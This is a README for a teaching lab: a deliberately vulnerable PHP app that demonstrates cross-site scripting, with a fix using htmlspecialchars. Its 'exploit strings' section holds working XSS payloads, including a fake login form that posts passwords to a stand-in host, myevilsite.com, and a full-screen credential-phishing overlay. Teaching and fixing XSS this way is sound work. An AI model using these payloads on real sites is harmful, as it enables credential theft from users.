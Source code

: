 # Cross-site Scripting Example - PHP

## Building the example

* Clone this git repository
* Run <code>docker-compose build && docker-compose up</code> Note this may take a couple minutes the first time. It will be faster on subsequent executions since docker will cache the packages that the php container uses.
* Open a browser and navigate to your virtual server

## Exploit strings to try

* &lt;h1&gt;Hello&lt;/h1&gt;

* &lt;div id='stealPassword'&gt;Please Login:&lt;form name='input' action='http://myevilsite.com/stealPassword.php' method='post'&gt;Username: &lt;input type='text' name='username'&gt;&lt;br&gt;Password: &lt;input type='password' name='password'&gt;&lt;input type='submit' value='Login'&gt;&lt;/form&gt;&lt;/div&gt;

* &lt;/pre&gt;&lt;div id="overlay" style="position:fixed;top:0;left:0;bottom:0;right:0;height: 100%;width: 100%;margin: 0;padding: 0;background: %23000000;opacity: 1;filter: alpha(opacity=30);-moz-opacity: 1;z-index: 101;"&gt;&lt;h1&gt;Sorry, we got your credentials wrong. Can you enter them again?&lt;/h1&gt;&lt;form method="get" action=""&gt;&lt;input type="text" name="username"&gt;&lt;br&gt;&lt;input type="password" name="password"&gt;&lt;br&gt;&lt;input type="submit"&gt;&lt;/div&gt;

## Fixing the vulnerabilities

* Locate the spots in the code where the malicious strings are being <strong>printed</strong> and surround the string with <code>htmlspecialchars($YOUR_STRING_VARIABLE_HERE, ENT_QUOTES, 'UTF-8');</code>
